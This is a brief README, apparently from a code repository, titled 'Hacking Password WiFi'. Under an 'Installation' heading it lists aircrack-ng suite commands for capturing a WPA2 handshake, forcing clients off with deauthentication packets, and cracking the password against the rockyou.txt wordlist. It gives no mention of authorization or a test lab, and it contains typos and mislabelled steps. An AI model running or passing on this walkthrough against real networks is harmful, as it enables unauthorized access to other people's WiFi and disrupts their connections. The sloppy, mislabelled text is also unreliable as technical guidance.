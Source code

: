 # 🔥 HACKING PASSWORD WIFI 🔥  

**A powerful tool to hack WiFi perform network testing on Kali Linux.**  
---


✅                       ✅ 
✅                       ✅ 
✅ **Hacking Password**  ✅ 
✅                       ✅ 
✅                       ✅ 

---

## 🔧 Installation  

### **🔹 On Kali Linux**
Run the following commands:

```bash
airodump-ng wlan0mon
cd Desktops 
airodump-ng -c 10 --bssid Mac_Adress -w NAME wlan0mon
//Deauth Wifi in New Terminal 
aireplay-ng --deauth Numer_Seconds -a Mac_Adress wlan0mon
//Finished 
aircrack-ng -a2 -b Mac_Adress -w rockyou.txt NAME.cap

